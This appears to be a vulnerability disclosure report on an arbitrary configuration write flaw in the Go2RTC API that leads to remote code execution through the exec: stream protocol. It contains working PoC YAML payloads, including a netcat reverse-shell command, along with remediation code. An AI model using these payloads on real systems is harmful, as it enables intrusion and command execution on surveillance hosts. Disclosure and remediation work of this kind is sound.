 # Go2RTC Arbitrary Configuration Write Vulnerability Report

## 1. Vulnerability Overview

### 1.1 Basic Vulnerability Information
- **Vulnerability Name**: Go2RTC Arbitrary Configuration File Write Vulnerability
- **Vulnerability ID**: GO2RTC-2024-005
- **Vulnerability Type**: CWE-20 Improper Input Validation
- **Severity Level**: High (CVSS 8.8)
- **Affected Component**: Configuration API Endpoint

### 1.2 Vulnerability Description
The Go2RTC configuration management API endpoint (/api/config) contains an arbitrary configuration write vulnerability. Authenticated attackers can submit malicious YAML configurations through this endpoint, bypassing semantic validation and writing dangerous configurations to the system. When the system loads these configurations and accesses the associated streams, arbitrary system commands can be executed through the `exec:` protocol, leading to remote code execution (RCE).

## 2. Root Cause

### 2.1 Fundamental Cause
The root cause of the vulnerability lies in the `configHandler` function in the `internal/api/config.go` file, which lacks semantic validation of configuration content. The system only validates the correctness of YAML syntax but does not check the security of the configuration content.

### 2.2 Vulnerable Code Analysis
```go
// Fragment of configHandler function in internal/api/config.go
case "POST", "PATCH":
    // Read raw user input without content validation
    data, err := io.ReadAll(r.Body)
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    if r.Method == "PATCH" {
        // Merge YAML without content validation
        data, err = mergeYAML(app.ConfigPath, data)
        if err != nil {
            http.Error(w, err.Error(), http.StatusBadRequest)
            return
        }
    } else {
        // Only validate YAML syntax, not content security
        if err = yaml.Unmarshal(data, map[string]any{}); err != nil {
            http.Error(w, err.Error(), http.StatusInternalServerError)
            return
        }
    }

    // Directly write unvalidated configuration file
    if err = os.WriteFile(app.ConfigPath, data, 0644); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
```

### 2.3 Execution Chain
1. Attacker sends malicious YAML configuration to `/api/config`
2. Server only validates YAML syntax, not content security
3. Malicious configuration is directly written to configuration file
4. System registers `exec:` protocol handler when loading new configuration
5. Command execution is triggered when user accesses stream

## 3. Vulnerability Verification

### 3.1 Test Environment
- **Operating System**: Ubuntu Linux
- **Go2RTC Version**: 1.9.9
- **Test Environment**: Isolated laboratory environment

### 3.2 PoC1: Basic Command Execution
1. **Attack Payload**:
   ```yaml
   streams:
     malicious_stream: exec:sh -c "whoami>/tmp/poc1.txt"
   ```

2. **Verification Process**:
   - Upload malicious configuration to `/api/config` endpoint
   - Access `malicious_stream` to trigger command execution
   - Check `/tmp/poc1.txt` file content is "wangxuan3", confirming successful command execution

### 3.3 PoC2: Reverse Shell Attempt
1. **Attack Payload**:
   ```yaml
   streams:
     reverse_shell: exec:sh -c "nc 127.0.0.1 1337 -e /bin/bash"
   ```

2. **Verification Process**:
   - Start netcat listener on port 1337
   - Upload YAML with reverse shell configuration
   - Access `reverse_shell` stream to trigger command execution
   - Result: Command executed successfully but reverse shell connection failed (due to netcat version not supporting -e option)

### 3.4 Vulnerability Confirmation
Through verification of both PoCs above, the authenticity of this vulnerability has been confirmed. Both PoCs exploit the same underlying vulnerability mechanism, differing only in attack payload and expected results.

## 4. Vulnerability Impact

### 4.1 Technical Impact
- **Remote Code Execution**: Attackers can execute arbitrary system commands
- **Privilege Escalation**: Commands execute with Go2RTC process privileges
- **Persistent Access**: Configuration changes persist after system reboot
- **Data Leakage**: Access to sensitive system files and data
- **Service Denial**: Resource exhaustion commands can cause service disruption

### 4.2 Business Impact
- **Monitoring System Disruption**: Video surveillance services may be interrupted or manipulated
- **Compliance Violations**: May violate data protection regulations such as GDPR, HIPAA
- **Economic Losses**: Includes incident response costs, regulatory fines, and reputation damage
- **Legal Liability**: May face legal litigation and regulatory investigations

## 5. Remediation Recommendations

### 5.1 Immediate Mitigation Measures
1. **Disable Configuration API**:
   Comment out configuration handler registration in `internal/api/api.go`:
   ```go
   // api.HandleFunc("api/config", configHandler)
   ```

2. **Enable Authentication**:
   Add API authentication in configuration file:
   ```yaml
   api:
     username: "admin"
     password: "${SECURE_PASSWORD}"
   ```

3. **Restrict Network Access**:
   Bind API to localhost loopback address:
   ```yaml
   api:
     listen: "127.0.0.1:1984"
   ```

### 5.2 Long-term Fix Solutions
1. **Implement Content Validation**:
   Add semantic validation before saving configuration:
   ```go
   func validateConfigContent(data []byte) error {
       var config struct {
           Streams map[string]interface{} `yaml:"streams"`
       }
       
       if err := yaml.Unmarshal(data, &config); err != nil {
           return fmt.Errorf("invalid YAML syntax: %w", err)
       }
       
       // Block dangerous protocols
       for name, stream := range config.Streams {
           if streamStr, ok := stream.(string); ok {
               if strings.Contains(streamStr, "exec:") {
                   return fmt.Errorf("exec protocol not allowed: %s", name)
               }
           }
       }
       
       return nil
   }
   ```

2. **Modify Configuration Handler**:
   Update `configHandler` to include content validation:
   ```go
   case "POST", "PATCH":
       data, err := io.ReadAll(r.Body)
       if err != nil {
           http.Error(w, err.Error(), http.StatusBadRequest)
           return
       }
       
       // Validate content security
       if err := validateConfigContent(data); err != nil {
           http.Error(w, fmt.Sprintf("Configuration validation failed: %s", err), http.StatusBadRequest)
           return
       }
       
       // Continue processing...
   ```

3. **Restrict Dangerous Protocols**:
   Disable or strictly restrict the use of the `exec:` protocol by default.

## 6. Conclusion

The Go2RTC arbitrary configuration write vulnerability (GO2RTC-2024-005) is a serious security issue that allows authenticated attackers to execute arbitrary commands on the host system. By successfully reproducing PoC1 and PoC2 in an isolated environment, we have confirmed the authenticity of this vulnerability and its potential harm.

Go2RTC users are advised to immediately implement mitigation measures, particularly disabling unnecessary configuration APIs, implementing authentication, and restricting network access. Long-term solutions should focus on implementing appropriate content validation and following security best practices in application design.